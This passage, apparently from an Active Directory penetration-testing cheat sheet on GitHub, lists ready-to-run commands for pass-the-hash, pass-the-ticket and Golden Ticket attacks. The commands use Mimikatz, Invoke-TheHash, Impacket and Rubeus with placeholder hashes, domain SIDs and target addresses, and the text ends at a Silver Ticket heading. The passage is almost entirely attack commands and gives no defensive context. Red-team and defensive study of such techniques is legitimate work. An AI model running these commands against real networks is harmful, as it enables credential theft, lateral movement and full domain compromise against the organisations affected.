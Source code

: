 #### Windows:

```powershell
# Mimikatz
sekurlsa::pth /user:username /domain:domain.com /ntlm:NTLM_HASH

# Invoke-TheHash
Invoke-SMBExec -Target TARGET_IP -Username username -Hash NTLM_HASH -Command "whoami"
```

### 2. Pass-the-Ticket

#### Linux:

```bash
# Impacket
ticketer.py -nthash KRBTGT_HASH -domain-sid DOMAIN_SID -domain domain.com username
export KRB5CCNAME=username.ccache
psexec.py domain.com/username@TARGET_IP -k -no-pass
```

#### Windows:

```powershell
# Mimikatz
kerberos::ptt ticket.kirbi

# Rubeus
.\Rubeus.exe ptt /ticket:ticket.kirbi
```

---

## 👑 Privilege Escalation

### 1. Golden Ticket

#### Linux:

```bash
# Impacket
ticketer.py -nthash KRBTGT_HASH -domain-sid DOMAIN_SID -domain domain.com Administrator
export KRB5CCNAME=Administrator.ccache
psexec.py domain.com/Administrator@DC_IP -k -no-pass
```

#### Windows:

```powershell
# Mimikatz
kerberos::golden /user:Administrator /domain:domain.com /sid:DOMAIN_SID /krbtgt:KRBTGT_HASH /ptt
```

### 2. Silver Ticket
